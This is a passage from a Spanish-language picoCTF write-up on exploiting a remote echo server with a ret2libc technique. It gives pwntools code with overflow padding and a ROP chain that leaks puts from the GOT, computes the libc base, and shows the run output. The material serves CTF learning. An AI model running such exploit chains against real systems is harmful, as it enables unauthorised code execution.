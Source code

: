 
Ahora ya tenemos la direccion de ```puts``` en tiempo de ejecucion:

```bash
python3 exploit.py                                                ─╯
[+] Opening connection to mercury.picoctf.net on port 42072: Done
[*] Direccion de puts en tiempo de ejecucion: 0x7f6d50592a30
[*] Closed connection to mercury.picoctf.net port 42072
```

## Crafteando el exploit - parte 2

### Direccion base de libc

Para esto tenemos que sacar el offset de puts en libc y restarselo a la direccion de puts en tiempo de ejecucion

Con el comando: ```readelf -s libc.so.6 | grep puts``` podemos sacar el offset de puts en libc:

```422: 0000000000080a30   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5```

El cual es: ```80a30```

```py
from pwn import *

host = "mercury.picoctf.net"
puerto = 42072 #<-- Esto lo cambias

p = remote(host,puerto)

padding = b"A" * 136
pop_rdi = 0x400913
puts_got = 0x601018
puts_plt = 0x400540
main = 0x400771

payload = padding
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

p.recvuntil(b'WeLcOmE To mY EcHo sErVeR!\n')
p.sendline(payload)
p.recvline()

puts = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"Direccion de puts en tiempo de ejecucion: {hex(puts)}")

offset_puts = 0x80a30

libc = puts - offset_puts
log.info(f'Direccion base de libc: {hex(libc)}')  
```
